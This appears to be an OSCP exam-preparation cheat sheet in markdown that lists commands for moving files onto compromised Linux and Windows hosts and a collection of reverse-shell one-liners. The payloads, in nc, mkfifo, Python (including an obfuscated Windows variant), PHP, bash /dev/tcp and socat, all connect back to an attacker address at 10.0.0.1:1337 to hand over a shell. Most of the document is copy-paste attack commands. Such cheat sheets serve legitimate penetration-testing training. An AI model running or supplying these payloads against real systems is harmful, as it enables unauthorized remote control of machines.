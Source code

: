 # OSCP-PWK-Notes

---

## Useful services

### SSHd

```bash
sudo systemctl start ssh

sudo systemctl stop ssh
```

Add this line to `/etc/ssh/ssh_config` or `/etc/ssh/sshd_config` if you are dealing with old versions of `ssh`.
```
KexAlgorithms diffie-hellman-group-exchange-sha256,diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

### Apache2

```bash

sudo systemctl start apache2

sudo systemctl stop apache2
```

Default root directory is `/var/www/html`.

---

## File Transfers

### HTTP
```bash
On Linux:
sudo python3 -m http.server 80
sudo python2 -m SimpleHTTPServer 80
sudo updog -p 80

curl http://10.0.0.1:80/nc.exe > nc.exe
wget http://10.0.0.1:80/nc.exe -O nc.exe

On Windows:
certutil -f -split -urlcache http://10.0.0.1:80/nc.exe nc.exe
(New-Object System.Net.WebClient).DownloadFile("http://10.0.0.1:80/nc.exe", "C:\nc.exe")  
Invoke-WebRequest "http://10.0.0.1:80/nc.exe" -OutFile "C:\nc.exe"  
```

### SMB

```bash
On Linux:
sudo smbserver.py -port 445 -smb2support share . 

On Windows:
copy \\10.0.0.1\share\nc.exe C:\nc.exe
\\10.0.0.1\share\whoami.exe
```

### FTP

```bash
On Linux:
sudo python3 -m pyftpdlib -p 21 -w

On Windows:
ftp 10.0.0.1
ftp> binary
ftp> passive
```

### TFTP

```bash
On Linux:
sudo atftpd --daemon --port 69 /tftp
```

```bash
On Windows
tftp -i 10.0.0.1 GET nc.exe
```

### nc

Linux &rarr; Windows
```bash
On Linux:
cat nc.exe | nc -lvnp 1337

On Windows
nc 10.0.0.1 1337 > nc.exe
```

Windows &rarr; Linux
```bash
On Linux:
nc 10.0.0.1 1337 < nc.exe

On Windows
nc -lvnp 1337 > nc.exe
```

---

## Reverse Shell

### Listener
```bash
rlwrap nc -lvnp 1337
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Netcat/nc Traditional

```
nc -e /bin/sh 10.0.0.1 1337
nc -e /bin/bash 10.0.0.1 1337
nc -c /bin/bash 10.0.0.1 1337
```

### Netcat/nc OpenBSD

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1337 >/tmp/f
```

### Python

Linux:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Windows:
```
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 1337)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### PHP
```
php -r '$sock=fsockopen("10.0.0.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",1337);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",1337);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("10.0.0.1",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Bash TCP

```
bash -i >& /dev/tcp/10.0.0.1/1337 0>&1
```

### Socat

Attacker:
```bash
socat file:`tty`,raw,echo=0 TCP-L:1337
```

Victim:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:1337
```

---

## Powershell version

```powershell
64-bit: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
32-bit: C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe 
```

To check 32-bit/64-bit:
```powershell
[Environment]::Is64BitProcess
```
---

## Static Binaries

https://github.com/ernw/static-toolbox

https://github.com/ZephrFish/static-tools

https://github.com/andrew-d/static-binaries

https://github.com/interference-security/kali-windows-binaries


## References

https://github.com/tbowman01/OSCP-PWK-Notes-Public

https://github.com/swisskyrepo/PayloadsAllTheThings
